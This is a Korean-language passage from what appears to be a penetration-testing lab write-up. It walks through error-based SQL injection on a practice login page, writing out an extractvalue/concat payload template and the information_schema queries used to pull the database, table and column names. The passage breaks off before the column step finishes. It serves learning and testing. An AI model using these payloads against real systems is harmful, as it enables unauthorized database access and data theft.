 <img src="/data/Penetration%20Testing%20%7C%20Week%207/21.png" alt="SQL Injection 4" style="padding: 0 200px; background-color: white">

링크의 주소로 접속하면 마찬가지로 로그인 페이지로 이동한다.

아이디 입력란에서 SQL Injection 공격이 가능하며, 오류가 발생할 경우 오류 메시지가 출력된다는 사실을 파악하였다. 따라서 Error-Based SQL Injection을 시도하기로 결정하였고, 위와 동일하게 `normaltic' and extractvalue('<x/>', concat(0x3a, ([SQL]))) and '1' = '1`의 형태로 페이로드 포맷을 작성하였다.

이후 `[SQL]` 위치에 각각 `select database()`와 `select table_name from information_schema.tables where table_schema = 'sqli_2_1' limit 0, 1`을 삽입함으로써 데이터베이스명 `sqli_2_1`과 테이블명 `flag_table`을 추출하였다.

다음으로 컬럼명을 추출하기 위해 `[SQL]` 위치에 `select column_name from information_schema.columns where table_name = 'flag_table' limit 0, 1`를 삽입하여 입력해 보았다.
